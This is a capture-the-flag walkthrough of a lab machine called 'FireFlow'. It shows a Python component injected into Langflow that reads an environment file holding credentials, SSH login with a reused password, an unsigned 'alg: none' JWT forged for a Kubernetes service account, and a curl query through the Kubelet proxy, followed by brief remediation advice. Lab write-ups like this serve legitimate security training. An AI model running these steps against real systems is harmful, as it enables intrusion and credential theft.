



A workflow builder exposed to unauthenticated remote code execution drops you into a user shell; a JWT validation bypass grants Kubernetes node access.
FireFlow
FireFlow represents a realistic modern cloud-native configuration bypass. The target hosts a Langflow portal which is vulnerable to an unauthenticated Remote Code Execution flaw (CVE-2026-33017). This RCE yields local credentials and enables an SSH pivot to capture user.txt. Further escalation via an unauthenticated MCP server exposes a JWT validation flaw (alg: none), granting access to a service account token with Kubelet proxy read privileges.
We begin with a targeted scan of ports 22 and 443 on 10.129.244.214, discovering the web server and SSH daemon. Subdomain enumeration points us to flow.fireflow.htb.
nmap -p22,443 -sCV 10.129.244.214
The Langflow instance runs version 1.8.2. An unauthenticated Remote Code Execution vulnerability exists in the flow builder API. By replacing the TextOperations node code with a custom Python class running subprocess.Popen, we gain command execution.
import subprocess
from lfx.custom import Component
from lfx.schema.message import Message
class TextOperations(Component):
def get_message(self) -> Message:
proc = subprocess.Popen("cat /etc/langflow/.env", shell=True, stdout=subprocess.PIPE)
out, _ = proc.communicate()
return Message(text=out.decode("utf-8"))
The command output reveals the environment variables, yielding the administrative password: n1ghtm4r3_b4_n1ghtf4ll. Due to password reuse, we pivot to SSH using this password for the user nightfall to collect the user flag.
sshpass -p 'n1ghtm4r3_b4_n1ghtf4ll' ssh nightfall@10.129.244.214
cat /home/nightfall/user.txt
# Flag: 5b7e2496a630f2bc2b795a27ca813757In /home/nightfall/.mcp/config.json, we find configuration settings for the MCP server running on port 30080. The registry is vulnerable to a JWT signature bypass via the none algorithm. We forge a token for the langflow-bot service account, which allows us to request the mcp-sa service account token. This token holds nodes/proxy permissions on the K3s API, granting log directory reads on the host.
# Forge alg: none token
Header: {"alg": "none", "typ": "JWT"}
Payload: {"iss": "kubernetes/serviceaccount", "sub": "system:serviceaccount:default:mcp-sa"}
# Query Kubelet proxy logs
curl -sk -H "Authorization: Bearer " \
"https://10.129.244.214:6443/api/v1/nodes/fireflow/proxy/logs/syslog" | head -n 30 
Upgrade Langflow to version 1.8.3 or above. Fix JWT authentication by strictly validating JWT algorithms (forbidding "none"). Limit service account privileges on the Kubelet proxy node endpoints.